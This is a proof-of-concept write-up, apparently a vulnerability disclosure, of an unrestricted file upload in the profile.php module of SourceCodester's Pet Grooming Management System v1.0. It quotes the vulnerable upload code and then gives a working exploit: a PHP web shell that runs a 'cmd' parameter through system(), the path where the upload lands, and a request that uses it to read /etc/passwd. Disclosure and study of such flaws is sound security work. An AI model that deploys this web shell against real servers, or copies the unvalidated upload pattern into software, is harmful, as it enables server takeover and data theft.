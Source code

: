 # Proof of Concept – Unrestricted File Upload in Pet Grooming Management System (RCE)
### Summary

The Pet Grooming Management System contains an Unrestricted File Upload vulnerability in the admin/profile.php module.
An authenticated attacker can upload arbitrary files, including PHP code, instead of restricted image files. This results in Remote Code Execution (RCE) on the hosting server.

**Product:** [Pet Grooming Management v.1](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)
</br>
**Vendor:** [SourceCodester](https://www.sourcecodester.com)
</br>
**Vulnerable File:** ``/profile.php``
</br>
**Version:** V1.0
</br>

**Evidence:**
![](./evidence1.png)


### Root Cause
The application only applies client-side restrictions (accept="image/jpeg/png") and does not enforce proper server-side validation of uploaded files.
The following code demonstrates the weakness:

```php
$target_dir = "../assets/uploadImage/Profile/";
$website_logo = basename($_FILES["website_image"]["name"]);
$image = $target_dir . basename($_FILES["website_image"]["name"]);

if (move_uploaded_file($_FILES["website_image"]["tmp_name"], $image)) {
    @unlink("../assets/uploadImage/Profile/".$_POST['old_website_image']);
}
```


**❌ No server-side verification of extension, MIME type, or file content is performed.**

---

## Exploitation Proof of Concept
### Step 1 – Upload Payload

Submit the following file via the Profile Update form (website_image parameter):
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

### Step 2 – Locate File

The file is written to:
```php
/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php
```

Accessible at:

```http://<host>/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php```

### Step 3 – Remote Command Execution

Request the uploaded file with the cmd parameter:

```http://<host>/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php?cmd=cat /etc/passwd```

### Example Output:

![](./evidence2.png)

